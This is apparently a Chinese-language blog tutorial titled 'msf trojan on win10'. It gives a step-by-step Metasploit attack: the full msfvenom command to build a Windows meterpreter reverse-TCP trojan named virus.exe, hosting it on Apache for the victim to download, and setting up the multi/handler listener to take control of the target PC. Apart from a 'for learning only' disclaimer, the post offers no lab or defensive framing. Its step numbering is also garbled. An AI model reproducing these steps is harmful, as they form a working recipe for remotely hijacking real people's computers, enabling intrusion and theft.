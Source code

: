 # msf渗透木马win10
### 此教程仅供学习!造成的损失与作者无关!
最近不知道树莓派放到哪去了,于是买了个固态硬盘装kali虚拟机,之前如果有看过我RPI装Kali的也不用慌,把第2步打开命令行改成连接树莓派就行<br/>

1. 把虚拟机的的连接方式改成桥接,但不要勾选复制物理连接[![H1sUXR.png](https://s4.ax1x.com/2022/02/08/H1sUXR.png)](https://imgtu.com/i/H1sUXR)<br/>
2. 打开控制台<br/>
3. 查看攻击方的IP[![H1rlJe.png](https://s4.ax1x.com/2022/02/08/H1rlJe.png)](https://imgtu.com/i/H1rlJe)<br/>
4. 生成木马,命令:msfvenom -p windows/meterpreter/reverse_tcp lhost=攻击方的IP lport=4444 -f exe -a x86 >virus.exe (记得加上sudo,如果是root就不用)[![H16YLR.png](https://s4.ax1x.com/2022/02/08/H16YLR.png)](https://imgtu.com/i/H16YLR)<br/>
5. 安装apache2,把木马移动到/var/www/html目录下,开启apache2服务[![H1cNcQ.png](https://s4.ax1x.com/2022/02/08/H1cNcQ.png)](https://imgtu.com/i/H1cNcQ)<br/>
6. 打开msf(命令msfconsole),加载模块use exploit/multi/handler[![H1WORf.md.png](https://s4.ax1x.com/2022/02/08/H1WORf.md.png)](https://imgtu.com/i/H1WORf)<br/>
7. 设置监听IP和监听端口,ip就是第三步获取的ip,端口就是4444(前提是生成木马时的端口是4444,但是提供的木马生成命令设置端口就是4444)[![H1f0Yt.png](https://s4.ax1x.com/2022/02/08/H1f0Yt.png)](https://imgtu.com/i/H1f0Yt)<br/>
8. 输入set payload windows/meterpreter/reverse_tcp<br/>
8. 输入exploit,开始监听[![H1oTeS.png](https://s4.ax1x.com/2022/02/08/H1oTeS.png)](https://imgtu.com/i/H1oTeS)<br/>
6. 在被攻击方运行木马,通常,它在{攻击方IP地址/生成病毒名称,如果没有重命名的话,应该叫virus.exe}<br/>
7. 这时,你拿到了权限,可以控制对方电脑啦~~~~<br/>


PS:其实这个测试在我刚接触Kali的的时候就做过了,但是现在才想起来,于是写了个博客(顺带一提要设置的payload好难记哼哼哼哼哼啊啊啊啊啊啊啊啊啊啊啊啊啊)
